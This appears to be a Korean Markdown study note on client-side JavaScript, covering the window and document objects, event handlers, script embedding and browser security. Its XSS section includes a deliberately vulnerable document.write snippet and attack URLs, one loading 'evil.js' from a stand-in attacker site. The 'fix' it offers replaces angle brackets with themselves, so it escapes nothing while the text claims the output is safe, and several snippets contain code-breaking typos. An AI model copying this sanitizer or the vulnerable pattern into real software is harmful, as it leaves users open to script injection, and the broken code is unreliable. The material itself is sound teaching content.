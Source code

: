 # JS STUDY 0507
----
#### Chapter 13 - 웹브라우저의 자바스크립트
>13장 웹브라우저의 자바스크립트 양승준
 14장 Window 객체 조부광
 15장 문서 스크립팅 홍지훈
 16장 CSS 이인행
 17장 이벤트다루기 박종억

###### 서론
* 클라이언트 측 자바스크립트 1부까지가 실행 환경이 정의되지 않은 자바스크립트 코드 조각 이었다면 이장은 컨텍스트 이다.
  이 장에서는 클라이언트 측 자바스크립트에 대한 개요로 시작하고. 간단한 예제를 통해 웹 문서와 웹 애플리케이션에서 자바스크립트의
  역할을 설명한다.그리고 각 2부의 각 장에 대해 설명하고 , 이후 절들은 자바스크립트 코드가 어떻게 html문서에 내장되고 실행되는지에 대한 중요한 상세 내용을 설명한다.

##### 13.1 클라이언트 측 자바스크립트

* Window 객체
  * 클라이언트 측 자바스크립트의 기능과 api에서 핵심적인 진입점이다.
    이 객체는 웹브라우저의 창이나 프레임을 나타내고, 따라서 특정 창을 Window 객체로 참조 가능하다.
    location과 같은 프로퍼티들을 제공하는데, 이 객체는 창에 현재 보이는 url을 나타내고 또한 새로 주어진 url을 불러올 수 있게 해준다.
    ```js
    window.location = "http://www.oreilly.com" //새로운 웹 페이지로 보내기 위해 location 프로퍼티에 값 설정
    ```

* alert 객체, setTimeout 객체
  * 대화상자에 메시지를 보여주는 alert, 지정된 시간 후에 실행될 함수를 등록하는 setTimeout() 같은 메서드 제공
    ```js
    setTimeout(function(){alert("hello world");},2000); //2초후에 hello world 메시지 노출
    ```

* **앞의코드에서 window가 사용되지 않았음을 주의해야하는데 클라측 자바스크립트에서는 window객체가 전역객체이다**
* document 객체
  * window 객체의 가장 중요한 프로퍼티 중 하나인 document는 창에 표시된 내용에 해당하는 document객체를 참조한다. document 객체에는, 주어진 id 속성값을 가진 문서 요소를 반환하는
    getElementById()와 같은 중요한 메서드들이 있다.
    > 문서요소란 html 태그 쌍과 그안의 내용 전부를 담고 있는 html 요소이다.

    ```js
    var timestamp = document.getElementById("timestamp");
    ```

* getElementById가 반환하는 Element객체(위로 따지면 timestamp 객체)
  * 이 객체에는 내용을 가져오고 속성값을 지정할 수 있는 또 다른 주요 프로퍼티와 메서드가 존재한다.

    ```js
    if(timestamp.firstChild == null)
      timestamp.appendChild(document.createTextNode(new Date().toString()));
      //요소가 비어있으면 이 안에 최근 날짜와 시간을 넣는다.

    timestamp.style.backgroundColor = "yellow"; // 스타일 지정한다.
    timestamp.className = "highlight"; //클래스네임바꾼다
    ```

* 이벤트 핸들러 프로퍼티도 window,document,element 객체의 중요한 프로퍼티인데, 어떤 이벤트가 발생할 때 비동기로 호출할 함수를 지정할 수 있다. 꾸미기 위해 동작을 수정하는 코드를 넣을 수 있으며 해당 프로퍼티의 이름은 on으로 시작한다.

  ```js
  timestamp.onclick = function(){this.innerHTML = new Date().toString();}
  //사용자가 클릭했을때 요소의 내용 갱신
  ```

* 이벤트 핸들러 인 onload 핸들러는 이 핸들러는 창에 보이는 문서 내용이 더 이상 불러올 것이 없는 안정된 상태여서 문서 내용을 마음대로 조작할 준비가 되었을 때 작동한다.(378p 참조)

##### 13.1.1 웹문서의 자바스크립트

* 컨테이너 역할을 하는 document 객체와 element객체를 통해서 js 프로그램은 문서 내용을 탐색하고 조작할 수 있다.
css의 스타일과 클래스를 사용하여 내용을 표현하는 방식을 변경할 수 있고, 적절한 이벤트 핸들러를 등록해서 document 요소의 동작을 정의할 수 있다.
스크립팅 가능한 내용과 표현, 동작을 모두 합쳐서 `동적HTML` 또는 `DHTML` 이라고 한다.
**웹 문서 안에서는 되도록 JS를 적게 사용해야한다**
  > JS의 적절한 역할은 정보 취득이나 전송을 더 쉽게 만들어서 사용자의 인터넷 사용 경험을 높이는 것이다.

##### 13.1.2 웹 애플리케이션의 자바스크립트

* 웹 브라우저를 운영체제랑 비슷하다는 점을 꺠우쳐야된다. 379p 참조
  이러이러해서 우리는 브라우저가 제공하는(네트워킹,그래픽,데이터스토리지) 확장된 서비스를 이용하기 위해 자바스크립트를 사용한 웹 페이지를 `웹 애플리케이션`이라고 정의할 수 있다.
  확장된 서비스 중 가장 유명한 것은 XMLHttpRequest 객체다. 이 객체를 이용해서 HTTP 요청을 짜면 브라우저 외부와 네트워킹을 할 수 있다.
  웹 앱은 페이지를 다시 불러오지 않고도 서버에서 새로운 정보를 가져오기 위해 이 서비스를 사용한다. 이런 일을 하는 웹 애플리케이션을 보통 `에이젝스(Ajax)`라고 한다

##### 13.2 HTML 안에 자바스크립트 포함하기

* 클라 측 JS를 HTML 문서 안에 내장하는 방법은 4가지이다.
  * <SCRIPT></SCRIPT> 태그 안에 직접 작성.
  * <SCRIPT> 태그의 SRC속성에 별도 파일로 정의.
  * onclick 이나 onmouseover 같은 html 이벤트 핸들러 속성 안에 작성
  * javascript:라는 특별한 프로토콜을 사용해서 url 안에 작성.

##### 13.2.1 \<script>요소에 직접 작성.
  * 381p 참조.

##### 13.2.2 외부 파일의 스크립트
  * url을 지정해서 사용한다.
    ```js
    <script src="..../util.js"></script>
    //util.js에는 순수하게 자바스크립트만 있어야 한다. <script>,html 같은것이 있으면 안된다.
    ```
  * 외부 파일을 스크립트 하는것의 장점
    * 코드상의 거대한 자바스크립트 영역이 제거되어 파일이 간단해지고 내용과 동작의 구분을 돕는다.
    * 여러 웹페이지가 스크립트 코드를 공유할 때 스크립트해서 사용하면 하나의 소스만 유지하고 코드 바뀔 떄마다 여러
      html문을 수정안해도된다.
    * 여러 페이지에서 공유한다고 해도 사용한 첫 페이지에서만 한번 내려받고 다음페이지는 브라우저 캐시에서 참조 (빠르다)
    * 어떤 웹 서버의 프로그램이나 다른 웹 서버에서 출력되는 코드를 사용할 수 있다 (인터넷 광고 활용)

  * 어떤 서버에서 스크립트 문서를 제공하고 이 문서를 다른 서버에서 받았을때 실행과 관련하여 중요한 보안 위험이 있다. 조금있다가 나올 13.6.2에서 설명할 동일 출처 보안 정책은 한 도메인 내 문서의 자바스크립트가 다른 도메인의 문서와 상호작용하는 것을 방지한다.

##### 13.2.3 스크립트 타입
  * 오직 IE만 지원하는 VBScript같은 비표준 스크립트 언어를 사용하고 싶다면 type 속성을 사용하여 스크립트 mime타입을 정의해야한다.
  ```js
  <script type="text/vbscript">
    vbscript 작성~~~~~
  </script>
  //type 속성의 기본값은 'text/javascript' 인데 굳이 필요하지 않다.

  <script language="text/vbscript">
    vbscript 작성~~~~~
  </script>
  //위의 language 속성은 폐기 되었다.

  ```

##### 13.2.4 html안의 이벤트 핸들러
  * html안에 포함된 js 코드는 웹브라우저가 html 파일을 불러올 때 한번 실행된다. html파일을 불러온 이후에 무언가 상호작용이 일어나게 하기 위해선,ㄴ 자바스크립트 프로그램이 반드시 이벤트 핸들러를 정의해야 한다.!!
  자바스크립트 코드에서 이벤트 핸들러를 등록할 때 사용하는 프로퍼티 중 onclick 같은 몇가지는 html에 같은 이름의 속성이 있다. 밑의 예제는 사용자가 체크박스의 체크 상태를 변경했을 때 적용할 이벤트 핸들러를 정의하기 위해, 체크박스 html 요소의 onclick 속성에 핸들러 코드를 명시할 수 있다.
  ```js
  <input type-"checkbox" name="options" value="giftwrap" onchange="order.options. giftwrap = this.checked;">
  //사용자가 체크박스를 체크하거나 체크해제할때마다 onchange속성에 지정된 js코드를 실행한다.
  ```

  위와같이 보통 이벤트핸들러 속성은 간단히 지정만 하거나 다른 곳에 정의한 함수를 단순히 호출하는 것으로 구성한다.
  이렇게 함으로서 실제 스크립트 코드를 <script> 태그 안에 유지가능하고 자바스크립트와 html이 섞이는 현상을 줄일 수 있다.


##### 13.6 보안
  * 자바스크립트 인터프리터가 들어 있다는 말은 웹 페이지를 불러 오는 순간 컴퓨터에서 자바스크립트 코드가 실행될 수도 있다는 의미다.
  웹 개발자가 알아야 하는 자바스크립트 보안 관련 문제점과 제약사항에 대해 다룬다.

##### 13.6.1 자카스크립트가 할 수 없는것
  * 일차적인 방어책은 특정 기능들을 제공하지 않는것이다.
    예를 들면 자바스크립트 프로그램은 클라이언트 컴퓨터의 데이터를 삭제하거나 바이러스를 침투시킬 수 없다.(html5 api는 사용자가 직접 선택한 파일을 불러오는 방법과 읽고 쓰기가 가능한 보안 전용 파일 시스템을 획득하는 방법을 제공한다.)
    같은 이유로 클라측 자바스크립트는 범용 네트워킹 기능이 전혀 없다.
    http 프로토콜을 구현할 수 는 있다.  
    .....
    두번째 방어책으로는 브라우저가 지원하는 어떤기능에 사용 제약을 두는 것이다.
      * 자바스크립트는 브라우저에서 새창을 열 수 있다. 하지만 팝업남용을 막기 위해 새 창 열기를 막아 두고 마우스 클릭같은 행동으로 직접 열게 한다.
      * 자바스크립트는 스스로 연 새 창은 다시 닫을 수 있지만 다른 창을 닫으려면 사용자가 확인 창에서 승인을 해주어야 한다.
##### 13.6.4 크로스 사이트 스크립팅
  * xss는 사이트 공격자가 목표 사이트에 html 태그나 스크립트를 집어넣는 보안 문제를 일컫는 말이다. xss 공격을 막는 것은 서버 측 웹 개발자의 업무다. 그러나 클라이언트 측 자바스크립트 프로그래머도 xss에 대해 알고 막을 수 있어야 한다.
  다음 예제는 자바스크립트를 사용하여 사용자의 이름을 보여주는 웹 페이지 이다.
  ```js
  <script>
  var name = decodeURIComponent(window.location.search.substring(1)) || "";
  documentl.write("hello" + name);
  </script>
  ```
  `window.location.search`는 `http://www.example.com/greet.html?David` 같은 형태의
  uri를 고려한 페이지다. 이경우엔 hello david를 출력하지만
  `http://www.example.com/greet.html?3Cscript%3Ealert('David')%3C/script%3E`
  이 url은 동적으로 다른 스크립트(%3C와 %3E는 꺽쇠괄호) 를 생성한다.
  이건 그냥 대화상자를 출력하는 쉬운경우이지만.  

  `http://siteA/greet.html?name=%3Cscript src=siteB/evil.js%3E%3C/script%3E`
  교차 사이트 스크립팅 공격은 이렇게 하나 이상의 사이트가 연관된다.
  사이트b 에는 사이트a에 집어넣기 위한 특별히 만든 링크가 있다. 이 스크립트 evil.js에는악의적인 사이트 b에서 제공되엇지만 지금은 사이트 a에 포함되어있다.
  따라서 a의 콘텐츠에 무엇이든 할 수 있고 페이지 외형을 망가뜨리거나 오작동을 일으킨다.

  xss공격을 막는 일반적인 방법은 동적으로 내용을 생성하기 전에 html태그를 지워 버리는 것이다.

  `name = name.replac(/</g,"<").replace(/>/g, ">");`
  간단한 이코드는 입력된 html문자열에서 꺽쇠 괄호를 치환한다.
  이렇게 문자열 안에 있는 모든 html태그를 무시하고 비활성화 하여 안전하게 출력이 가능하다.

##### 13.6.5 서비스 거부 공격(DoS attack)

* 만약 자바스크립트가 활성된 브라우저로 악의적인 웹사이트를 방문한다며느, 이 사이트는 alert() 대화상자를 무한정 띄우거나, 의미 없는 계산 혹은 무한 반복 구문을 실행하여 사용자의 cpu를 느리게 만드는 식으로 브라우저를 꼼짝 못하게 묶어둘 수 도있다.
이런 막무가내 식의 공격을 막을 수 있는 일반적인 방법은 없다(?????????? 지금은 있겠죠..)
(프로그램 으로 막기가 가능한거같음)

##### 13.7 클라이언트 측 프레임워크(415p)
* 다 구식인거같음

C:\Users\bit\Desktop\과제모음\2번째과제(sql)\sql_prac
